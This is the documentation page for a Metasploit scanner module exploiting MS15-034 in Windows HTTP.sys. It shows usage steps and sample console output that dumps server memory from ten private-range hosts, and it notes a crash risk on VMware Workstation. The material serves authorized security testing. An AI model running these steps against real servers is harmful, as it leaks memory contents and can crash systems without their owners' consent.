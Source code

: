 ##Description

This module dumps memory contents using a crafted Range header and affects only Windows 8.1, Server 2012, and Server 2012R2. Note that if the target is running in VMware Workstation, this module has a high likelihood of resulting in BSOD; however, VMware ESX and non-virtualized hosts seem stable. Using a larger target file should result in more memory being dumped, and SSL seems to produce more data as well.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/ms15_034_http_sys_memory_dump```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Sample Output
```
msf > use auxiliary/scanner/http/ms15_034_http_sys_memory_dump
msf auxiliary(ms15_034_http_sys_memory_dump) > set RHOSTS 10.10.141.11-20
RHOSTS => 10.10.141.11-20
msf auxiliary(ms15_034_http_sys_memory_dump) > set RPORT 80
RPORT => 80
msf auxiliary(ms15_034_http_sys_memory_dump) > show options

Module options (auxiliary/scanner/http/ms15_034_http_sys_memory_dump):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            10.10.141.11-20  yes       The target address range or CIDR identifier
   RPORT             80               yes       The target port
   SSL               false            no        Negotiate SSL/TLS for outgoing connections
   SUPPRESS_REQUEST  true             yes       Suppress output of the requested resource
   TARGETURI         /                no        URI to the site (e.g /site/) or a valid file resource (e.g /welcome.png)
   THREADS           1                yes       The number of concurrent threads

msf auxiliary(ms15_034_http_sys_memory_dump) > exploit

[+] Target may be vulnerable...
[+] Stand by...

[+] Memory contents:


[*] Memory dump saved to /root/.msf4/loot/20170320143459_default_10.10.141.11_iis.ms15034_241505.bin
[*] Scanned  1 of 10 hosts (10% complete)
[+] Target may be vulnerable...
[+] Stand by...

[+] Memory contents:


[*] Memory dump saved to /root/.msf4/loot/20170320143459_default_10.10.141.12_iis.ms15034_783265.bin
[*] Scanned  2 of 10 hosts (20% complete)
[+] Target may be vulnerable...
[+] Stand by...

[+] Memory contents:


[*] Memory dump saved to /root/.msf4/loot/20170320143459_default_10.10.141.13_iis.ms15034_433508.bin
[*] Scanned  3 of 10 hosts (30% complete)
[+] Target may be vulnerable...
[+] Stand by...

[+] Memory contents:


[*] Memory dump saved to /root/.msf4/loot/20170320143500_default_10.10.141.14_iis.ms15034_663607.bin
[*] Scanned  4 of 10 hosts (40% complete)
[+] Target may be vulnerable...
[+] Stand by...

[+] Memory contents:


[*] Memory dump saved to /root/.msf4/loot/20170320143500_default_10.10.141.15_iis.ms15034_695505.bin
[*] Scanned  5 of 10 hosts (50% complete)
[+] Target may be vulnerable...
[+] Stand by...

[+] Memory contents:


[*] Memory dump saved to /root/.msf4/loot/20170320143501_default_10.10.141.16_iis.ms15034_254486.bin
[*] Scanned  6 of 10 hosts (60% complete)
[+] Target may be vulnerable...
[+] Stand by...

[+] Memory contents:


[*] Memory dump saved to /root/.msf4/loot/20170320143502_default_10.10.141.17_iis.ms15034_393454.bin
[*] Scanned  7 of 10 hosts (70% complete)
[+] Target may be vulnerable...
[+] Stand by...

[+] Memory contents:


[*] Memory dump saved to /root/.msf4/loot/20170320143502_default_10.10.141.18_iis.ms15034_330159.bin
[*] Scanned  8 of 10 hosts (80% complete)
[+] Target may be vulnerable...
[+] Stand by...

[+] Memory contents:


[*] Memory dump saved to /root/.msf4/loot/20170320143503_default_10.10.141.19_iis.ms15034_165710.bin
[*] Scanned  9 of 10 hosts (90% complete)
[+] Target may be vulnerable...
[+] Stand by...

[+] Memory contents:


[*] Memory dump saved to /root/.msf4/loot/20170320143504_default_10.10.141.20_iis.ms15034_980170.bin
[*] Scanned 10 of 10 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ms15_034_http_sys_memory_dump) > 
```
